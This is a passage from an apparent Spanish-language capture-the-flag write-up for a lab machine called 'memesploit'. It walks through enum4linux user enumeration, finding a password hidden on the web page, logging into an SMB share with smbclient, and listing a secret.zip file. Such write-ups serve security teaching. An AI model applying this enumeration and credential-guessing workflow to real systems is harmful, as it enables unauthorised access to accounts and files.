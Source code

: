 ```
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1001 Unix User\memesploit (Local User)
S-1-22-1-1002 Unix User\memehydra (Local User)

 ================================( Getting printer info for 172.18.0.2 )================================

No printers returned.


enum4linux complete on Sun Sep  1 05:31:01 2024
```

Vemos que hay un recurso compartido llamado `share_memehydra` con un nombre de usuario relacionado a el llamado `memehydra` pero si intentamos entrar nos pedira contraseña, por lo que seguiremos buscando.

## Puerto 80

Si nos vamos al puerto `80` veremos una pagina web en la que oculta 3 palabras que son las siguientes.

```
fuerzabrutasiempre
memesploit_ctf
memehydra
```

Por lo que probaremos con esas 3 palabras la contraseña del usuario `memehydra` en el `smb`, nos podremos crear un diccionario si queremos.

## Intrusion SMB

Si probamos con la palabra `fuerzabrutasiempre` como contraseña del usuario `memehydra` veremos que es la correcta, por lo que...

```shell
smbclient //<IP>/share_memehydra -U memehydra
```

Y con esto ya estariamos dentro, si listamos veremos un archivo `.zip`.

```
 .                                   D        0  Sat Aug 31 11:15:13 2024
  ..                                  D        0  Sat Aug 31 11:15:13 2024
  secret.zip                          N      224  Sat Aug 31 11:15:06 2024
```
